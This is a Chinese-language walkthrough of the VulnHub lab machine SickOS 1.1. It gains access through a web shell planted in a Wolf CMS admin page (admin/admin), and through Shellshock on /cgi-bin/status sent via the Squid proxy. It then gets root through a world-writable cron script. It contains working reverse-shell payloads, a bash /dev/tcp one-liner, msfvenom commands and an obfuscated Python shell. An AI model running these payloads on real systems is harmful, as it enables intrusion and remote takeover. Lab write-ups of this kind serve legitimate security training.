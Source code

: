 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶机/vulnhub_SickOS1.1.md","permalink":"/安全/靶机/vulnhub_SickOS1.1/","title":"vulnhub_SickOS1.1"}
---
```


靶机ip
```
192.168.1.61
```
![Pasted image 20250121133207.png](/img/user/picture/Pasted%20image%2020250121133207.png)


端口扫描：
![Pasted image 20250121133500.png](/img/user/picture/Pasted%20image%2020250121133500.png)

![Pasted image 20250121133737.png](/img/user/picture/Pasted%20image%2020250121133737.png)


经了解3128端口开的是一个网络代理，要访问就需要经过代理
![Pasted image 20250121135605.png](/img/user/picture/Pasted%20image%2020250121135605.png)
![Pasted image 20250121135615.png](/img/user/picture/Pasted%20image%2020250121135615.png)
![Pasted image 20250121135632.png](/img/user/picture/Pasted%20image%2020250121135632.png)
![Pasted image 20250121140533.png](/img/user/picture/Pasted%20image%2020250121140533.png)

经网络所搜找到后台管理路径
```
 http://192.168.1.61/wolfcms/?/admin/login
```

尝试一下弱密码爆破，得到账号密码
```
admin
admin
```


![Pasted image 20250121143416.png](/img/user/picture/Pasted%20image%2020250121143416.png)
加入一句话木马
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.55/4488 0>&1'");?>
```
点击Articles
![Pasted image 20250121143448.png](/img/user/picture/Pasted%20image%2020250121143448.png)
得到webshell
![Pasted image 20250121143532.png](/img/user/picture/Pasted%20image%2020250121143532.png)
在config.php中找到数据库配置信息
![Pasted image 20250121143621.png](/img/user/picture/Pasted%20image%2020250121143621.png)
其中暴露出一个密码
`john@123`

![Pasted image 20250121143702.png](/img/user/picture/Pasted%20image%2020250121143702.png)
尝试一下这个密码
![Pasted image 20250121143853.png](/img/user/picture/Pasted%20image%2020250121143853.png)


sudo 三个all
![Pasted image 20250121143916.png](/img/user/picture/Pasted%20image%2020250121143916.png)


拿到root
![Pasted image 20250121144009.png](/img/user/picture/Pasted%20image%2020250121144009.png)


也可以：
![Pasted image 20250121170252.png](/img/user/picture/Pasted%20image%2020250121170252.png)
![Pasted image 20250121170259.png](/img/user/picture/Pasted%20image%2020250121170259.png)
![Pasted image 20250121170445.png](/img/user/picture/Pasted%20image%2020250121170445.png)

![Pasted image 20250121182139.png](/img/user/picture/Pasted%20image%2020250121182139.png)




## webshell

利用nikto工具扫描
```
 sudo nikto -h 192.168.1.62 -useproxy 192.168.1.62:3128
```

发现有这么一行：
```
+ /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
```
说明`/cgi-bin/status`文件存在shellshock漏洞

验证shellshock漏洞存在：
```
sudo curl   -x http://192.168.1.62:3128 http://192.168.1.62/cgi-bin/status -H "Referer:() { test;}; echo 'Content-Type: text/plain'; echo;echo; /usr/bin/id;exit"
```


![Pasted image 20250121214407.png](/img/user/picture/Pasted%20image%2020250121214407.png)


生成反弹shellpayload：
```
sudo msfvenom -p cmd/unix/reverse_bash lhost=192.168.1.55 lport=443 -f raw
```

```
0<&206-;exec 206<>/dev/tcp/192.168.1.55/443;sh <&206 >&206 2>&206
```

我们修改一下上面测试命令：
```
sudo curl   -x http://192.168.1.62:3128 http://192.168.1.62/cgi-bin/status -H "Referer:() { test;}; 0<&206-;exec 206<>/dev/tcp/192.168.1.55/443;/bin/sh <&206 >&206 2>&206"
```
//注意这里要把sh修改为绝对路径

![Pasted image 20250121215132.png](/img/user/picture/Pasted%20image%2020250121215132.png)
拿到了webshell
但是现在shell交互性差，尝试升级shell，参考[[blog/THM/netcat shell稳定\|netcat shell稳定]]

```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```
现在这个shell中就可以使用clear等


```shell
www-data@SickOs:/etc/cron.d$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```


```shell
www-data@SickOs:/etc/cron.d$ ls
ls
automate  php5
www-data@SickOs:/etc/cron.d$ cat automate
cat automate

* * * * * root /usr/bin/python /var/www/connect.py
www-data@SickOs:/etc/cron.d$ ls -l /var/www/connect.py
ls -l /var/www/connect.py
-rwxrwxrwx 1 root root 109 Dec  5  2015 /var/www/connect.py
```

发现有一个文件`/var/www/connect.py`会每分钟用root权限执行一次

生成反弹shellpayload：
```
sudo msfvenom -p cmd/unix/reverse_python lhost=192.168.1.55 lport=444 -f raw
```

```txt
exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqVUMEKwjAM/ZXRUwtS7dhEkR6GTBBRwe0+XK1sONuydP8vdRNpb8shTfreywtp30b3NgItXtJGLhbRL2CoTa+FBAgADVOx++ZGg+WIbWPK1hvKaJoiD3cOPEkS7xP46EnHB09ddqiOl7wMNxnB4ro/VUV5y7Mz8YdRoZWSwmLslgnUzp/4Ag30MZgYA322nVQak0CzmslnM/mxzzf8f2wq7l2H0bJu1RIaRD7d6GME')[0])))
```

等了一会，拿到shell
![Pasted image 20250121222239.png](/img/user/picture/Pasted%20image%2020250121222239.png)

![Pasted image 20250121222310.png](/img/user/picture/Pasted%20image%2020250121222310.png)